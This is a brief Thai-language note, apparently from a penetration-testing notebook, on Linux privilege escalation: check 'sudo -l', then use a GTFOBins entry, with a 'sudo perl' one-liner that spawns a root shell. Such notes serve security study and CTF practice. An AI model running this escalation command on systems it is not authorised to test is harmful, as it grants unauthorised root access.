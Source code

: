 #privesc 
# Step
1. หาว่ามี sudo อะไรใช้ได้มั้ย
```bash
sudo -l
```
2. หา command ใน GTFOBins
```bash
sudo perl -e 'exec "/bin/sh";'
```
[[GTFOBins]]